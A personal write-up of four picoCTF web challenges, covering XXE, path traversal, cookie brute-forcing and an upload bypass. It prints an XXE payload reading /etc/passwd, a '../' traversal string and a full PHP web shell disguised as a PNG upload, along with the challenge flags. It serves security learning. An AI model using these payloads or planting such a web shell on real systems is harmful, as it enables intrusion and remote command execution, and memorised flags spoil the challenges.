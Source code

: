 # SOAP
## Problem
The web project was rushed and no security assessment was done. Can you read the /etc/passwd file?
Additional details will be available after launching your challenge instance.
## Thought Process
- Website has some interactive buttons, clicking them sends a request, so I opened the Network Tab to inspect it closely
```html
<form class="detailForm" action="/data" method="POST">
                        <input required="" type="hidden" name="ID" value="1">
                  <button type="submit" class="btn btn-sm
                      btn-outline-secondary">Details</button>
                    </form>
```
- The payload tab seems to imply the existence of some form of xml, which could be exploited by using an XXE (XML External Entity) Injection
- Since we need to use an XXE and modify the payload, I did some research about basic XXE Injections
- To obtain the flag at /etc/passwd, I found this XXE Injection:
```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
```
- For some strange reason, any other xxe injection I try on burp suite works but the moment I try the one which should give me `/etc/passwd`, it doesn't work
- I attempted cURLing but it still gives no response, so I am going to have to leave this level on hold for the time being
- Tried again after 2 days, worked this time. Used BurpSuite to intercept and modify the request.
![image](https://github.com/user-attachments/assets/cdd8fa82-bd6f-421c-81e8-98bff1cb3e02)
# Forbidden Paths
## Problem
We know that the website files live in /usr/share/nginx/html/ and the flag is at /flag.txt but the website is filtering absolute file paths. Can you get past the filter to read the flag?
## Thought Process
- Provided with a website called Web eReader, which has a form accepting file names.
![image](https://github.com/user-attachments/assets/81357433-e42c-4148-9791-a7cca3b9160a)
- Tried `flag.txt`, wouldn't be that simple if it was a ctf problem.
- since it says that the absolute path is forbidden, we use the relative path. Therefore, it would be `../../../../../flag.txt`
- flag: `picoCTF{7h3_p47h_70_5ucc355_6db46514}`
# Cookies
## Problem
Who doesn't love cookies? Try to figure out the best one. http://mercury.picoctf.net:29649/
## Thought Process
- Well this should be a walk in the park, the level being marked as easy, and having done a similar question in OasisCTF 2024.
![image](https://github.com/user-attachments/assets/7265b468-71fb-4d8c-b322-c589ebd2d21a)
- Go to the cookies tab, set the value to some 0 or positive value, and reload the page
![image](https://github.com/user-attachments/assets/44594854-3f0a-4ac7-a06f-0ecdf6e24b71)
- On trying a different value, it returns a different message, e.g. I love chocolate chip cookies. So, I think if we keep trying, we might be able to land on the flag.
- We can try a binary search within the first 100 values, but there is no idea of how many cookie values are acceptable.
- So I tried using BurpSuite's intruder feature, which I was trying out on the previous level while trying to comprehend how the software works.
- It basically simplifies the bruteforce as I just have to specify the payload type and range, followed by a grep specification for extraction the flag. It completely removes the need of a script from the process.
- After adding the specification to extract results containing the flag format, I ran the intruder.
![image](https://github.com/user-attachments/assets/85737b18-4dd6-4d89-baed-09779b83a42b)
![image](https://github.com/user-attachments/assets/91fa4e18-ca33-46b0-8207-8c5440dfe72e)
- Set cookie name as payload position hit start attack
- Well, by the look of it, I might have done it on the wrong request, as a result of which, it always returned name=snickerdoodle
- Retrying with the correct request this time,
![image](https://github.com/user-attachments/assets/411eb00d-e628-4e5e-bf89-f98365e81b7d)
- Well, the payload with a 1 under the `picoCTF{` list is the payload which returns the flag.
![image](https://github.com/user-attachments/assets/f11f207d-292d-4ee4-ae21-e5f9a9b68281)
- flag: `picoCTF{3v3ry1_l0v3s_c00k135_a1f5bdb7}`
# Trickster
## Problem
- A website is given which accepts a `.png` format file. Question Tag suggests the use of web shell, a common method of cyberattack.
## Thought Process
![image](https://github.com/user-attachments/assets/432a3182-a482-4670-a9a6-569d6075ed9d)
- Did the usual checks, saw the requests, cookies on the inspect element window. Found nothing there, so I proceeded with a check for `/robots.txt`.
```
User-agent: *
Disallow: /instructions.txt
Disallow: /uploads/
```
- Opening `/instructions.txt`
```
Let's create a web app for PNG Images processing.
It needs to:
Allow users to upload PNG images
	look for ".png" extension in the submitted files
	make sure the magic bytes match (not sure what this is exactly but wikipedia says that the first few bytes contain 'PNG' in hexadecimal: "50 4E 47" )
after validation, store the uploaded files so that the admin can retrieve them later and do the necessary processing.
```
- The conditions seem rather vague, since it could accept a `.png.php` file or the first few bytes of a text file could also be set to `PNG` to fool the website into thinking it is a valid upload.
- Using a basic webshell script obtained online, I added PNG before the script and uploaded it to the website as `Untitled.png.php`
```php
PNG
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd'] . ' 2>&1');
    }
?>
</pre>
</body>
</html>
```
- Now, I go to `/uploads/Untitled.png.php`
![image](https://github.com/user-attachments/assets/164629ea-9eea-41f1-971b-8569b0a71df2)
- I have a web shell which I can use to remotely access the resources
- Checking the `/` directory
- ![image](https://github.com/user-attachments/assets/023aa0b5-3d14-4a6e-aa01-476a44a12d4c)
- checking the contents of various directories, I discovered the path `/var/www/html`
![image](https://github.com/user-attachments/assets/73d5d748-ff2a-47a4-9e24-358d7e2b9205)
- Reading the contents of the `HFQWKODGMIYTO.txt` file
![image](https://github.com/user-attachments/assets/d4beca37-38fc-41df-84e1-9f3584c4d429)
flag: `picoCTF{c3rt!fi3d_Xp3rt_tr1ckst3r_9ae8fb17}`


